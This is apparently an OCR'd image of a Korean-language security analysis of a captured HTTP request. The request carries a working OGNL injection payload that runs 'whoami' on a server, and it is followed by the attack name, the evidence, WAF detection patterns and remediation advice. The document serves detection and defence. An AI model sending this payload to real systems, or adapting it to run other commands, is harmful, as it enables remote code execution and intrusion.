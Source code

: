 POST /template/aui/text-inline.vm HTTP/1.1
Host: 172.16.1.30
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Connection: close
Content-Length: 303
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache.struts2.ServletActionContext@getResponse().setHeader(\u0027x_vuln_check\u0027,(new+freemarker.template.utility.Execute()).exec({"whoami"}))
- 공격 이름: `Struts2 OGNL Injection`
- 판단 근거: `#request.get('.key_velocity.struts2.context').internalget('ognl').findvalue(#parameters.poc[0],{})` 와 같이 OGNL 표현식을 사용하고 있으며, whoami 명령어 실행 시도가 보입니다.
- 탐지 패턴: `#request.get`, `.internalget('ognl')`, `findvalue`, `@org.apache.struts2.servletactioncontext@getresponse().setheader`
- 설명: Struts2 프레임워크의 취약점을 이용하여 OGNL(Object-Graph Navigation Language) 표현식을 주입하고, 원격 코드 실행을 하는 공격입니다.
- 대응 방법: 웹 애플리케이션 방화벽 (WAF)에서 `#request.get`, `.internalget('ognl')`, `@org.apache.struts2.servletactioncontext@getresponse().setheader` 와 같은 패턴을 탐지하여 차단하고, Struts2 프레임워크를 최신 버전으로 업데이트해야 합니다.

